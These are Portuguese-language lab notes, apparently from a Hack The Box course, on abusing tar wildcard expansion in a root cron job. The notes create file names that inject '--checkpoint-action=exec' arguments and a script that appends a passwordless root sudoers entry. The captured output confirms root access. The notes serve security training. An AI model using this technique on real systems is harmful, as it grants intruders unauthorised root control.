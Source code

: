 Um caractere curinga pode ser usado como um substituto para outros caracteres e é interpretado pelo shell antes de outras ações. Exemplos de curingas incluem:

|**Personagem**|**Significado**|
|---|---|
|`*`|Um asterisco que pode corresponder a qualquer número de caracteres em um nome de arquivo.|
|`?`|Corresponde a um único caractere.|
|`[ ]`|Os colchetes envolvem caracteres e podem corresponder a qualquer um deles na posição definida.|
|`~`|Um til no início se expande para o nome do diretório inicial do usuário ou pode ter outro nome de usuário anexado para se referir ao diretório inicial desse usuário.|
|`-`|Um hífen entre colchetes indicará um intervalo de caracteres.|

O comando ``tar`` é um exemplo de como curingas podem ser usados para escalonamento, veremos a seguir :
```bash
man tar
```
![[Pasted image 20240719174939.png]]

A opção `--checkpoint-action` permite executar comandos arbitrários ao atingir um checkpoint durante a execução de `tar`. Por exemplo, `--checkpoint=1 --checkpoint-action=exec=sh root.sh` executa `root.sh` quando o checkpoint é alcançado.

Isso pode ser usado para escalonamento de privilégios se um cron job estiver configurado para criar backups periodicamente, como no exemplo onde um cron job executa `tar` a cada minuto para compactar o conteúdo de `/home/htb-student`.

```cron-job
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

Podemos usar o curinga no cron job para escrever comandos. Quando for executado, interpretará o nome de arquivos como argumentos e executarão quaisquer comandos que especificarmos.

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

Podemos verificar e ver se os arquivos necessários foram criados.

```bash
ls -la
```
|
```output
total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

Assim que o cron job for executado novamente, poderemos verificar os privilégios sudo recém-adicionados e o sudo para root diretamente.

```bash
sudo -l
```
|
```output
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```






















































